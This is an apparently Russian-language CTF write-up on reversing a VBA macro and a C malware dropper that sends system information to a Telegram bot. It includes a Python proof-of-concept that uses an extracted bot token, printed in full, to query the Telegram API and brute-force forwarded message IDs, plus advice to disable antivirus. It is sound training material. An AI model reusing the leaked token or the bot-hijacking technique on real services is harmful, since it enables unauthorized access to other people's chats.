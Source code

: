 # 1.	Направленность: Обратная разработка.
# 2.	Краткое описание: 
## Необходимо выполнить обратную разработку макроса, написанного на VBA. Получив необходимую ссылку из макроса – скачать “вредоносный” исполняемый файл. В конце концов выполнить обратную разработку данного файла и получить все необходимые данные для взаимодействия через API телеграмма. Для решения данного задания нужно выполнить обратную разработку бинарного файла, написанного на Си, предварительно получив его посредством дроппера. После получения всех необходимых данных – написать скрипт-обработчик запросов, при помощи которого можно будет получить флаг.
---
## Задание №1 – Получение информации о вредоносном макросе.
### Необходимо отключить любые доступные средства защиты (антивирусы), настроить excel на открытие не достоверных макросов. После – найти внутри кода первый флаг.
## Задание №2 – Получение флага посредством обратной разработки. 
### Аналогично следующему пункту, в процессе обратной разработки участники наткнутся на переменные, внутри которых находится флаг. Понять, что это флаг участникам поможет 16ти ричная система счисления.
## Задание №3 – Обратная разработка вредоносной программы в целях получения telegram bot token’a.
При декомпиляции получаем граф вызова функций:
![](https://i.imgur.com/bu2I3jT.png)

После - необходимо зайти в функцию main (т.к согласно спецификации, каждая программа должна иметь в себе функцию main, которая и будет входной точкой).
![](https://i.imgur.com/SZTkvu5.png)

После изучения функции становится понятно:
1. Создаются 2 переменные (message, id).
2. Вызывается функция init_ssl, которая сразу наталкивает на мысль о защищенном https соединении. Значит – программа что-то отправляет на удаленный сервер.
3. В регистр rax помещаются данные в 16ти ричном формате записи.
4. Вызывается функция get_sysinfo, предположительно собирающая информацию о системе, после чего в регистр rbx записывается то, что данная функция возвращает. 
5. Вызывается функция sendMessageByID, которая дает понять, что объявленный выше ID – именно то что нам нужно.

Далее – необходимо найти файлы заголовков и изучить их:
![](https://i.imgur.com/ZIaA0sG.png)
![](https://i.imgur.com/BjEfeTF.png)

Отсюда получаем токен, с помощью которого можно перейти к следующему пункту.
После получения токена для бота и извлечения уникального идентификатора чата (согласно документации – отрицательное число) можно использовать следующий код для получения флага:
```python
import requests
from json import loads


class Errors(object):
    def __init__(self):
        self.INTERNAL_ERROR = {"INTERNAL ERROR": 500}
        self.CONTENT_TYPE_ERROR = {"CONTENT_TYPE_ERROR": 500}


class POC(Errors):
    def __init__(self, token):
        super().__init__()
        self.url = "https://api.telegram.org/bot"
        self.token = token
        self.chat = {}
        self.messages = {}

        self.session = requests.Session()

    def get_chat(self, chat_id: int):
        resp = self.session.get(url=f"{self.url}{self.token}/getChat?chat_id={chat_id}")
        if resp.status_code == 200:
            if resp.headers.get("Content-type") and \
                    resp.headers.get("Content-type") == "application/json":
                self.chat.update(loads(resp.text))

    def test(self, show_trace: bool):
        resp = self.session.get(url=f"{self.url}{self.token}/getMe")
        if resp.status_code == 200:
            if resp.headers.get("Content-type") and \
                    resp.headers.get("Content-type") == "application/json":
                data = loads(resp.text)
                if not data:
                    raise ValueError(self.CONTENT_TYPE_ERROR)
                if show_trace: print(data)

    def get_all_messages(self):
        resp = self.session.post(url=f"{self.url}{self.token}/getUpdates")
        if resp.headers.get("Content-type") and resp.headers.get("Content-type") == "application/json":
            self.messages = loads(resp.text)
        for dct in self.messages['result']:
            self.parse_info(dct)

    def parse_info(self, current_dict):
        # print(dumps(current_dict, indent=2))
        if type(current_dict) is dict:
            if current_dict.get("message_id") and current_dict.get("text"):
                print(f"[!] Found message: {current_dict['text']}:{current_dict['message_id']}, from chat: {current_dict['chat']}")
            for k, v in current_dict.items():
                if type(k) is dict or type(v) is dict:
                    # print(f"Enclosed dict found: {k, v}")
                    self.parse_info(k if type(k) is dict else v)

    def forward(self):
        data = {
            "chat_id":"746430418",
            "from_chat_id": "-1001592971105",
            "message_id":0
        }
        for message in range(30):
            data["message_id"] = message
            resp = self.session.post(url=f"{self.url}{self.token}/forwardMessage", data=data)
            print(resp.text)


poc = POC(token="1881247491:AAEUacfPyDZYdZfgtcJoLUk8tmMqwsg5Ego")
poc.test(False)
poc.get_chat(-1001592971105)
poc.get_all_messages()
```

Объект под названием “get_all_messages” вызывает telegram api Метод под названием “getUpdates”. Согласно данной (https://core.telegram.org/bots/api) документации – метод применяется для получения обновлений, которые были совершены в течении 24ч. Игроки не получат ни единого сообщения, связанного с флагом, но получат сообщения, которые сами смогут отправлять от имени бота! Поэтому, перейдем к основному методу решения: объекту “forward”. Как известно, невозможно получить определенное сообщение исключительно для просмотра. Поэтому – можно применить одноименный метод forward для пересылки сообщения из определенного чата. На вход необходимо подать: айди чата, куда будет переслано сообщение, айди текущего чата, айди сообщения. В ходе перебора последнего параметра можно будет получить заветный флаг.
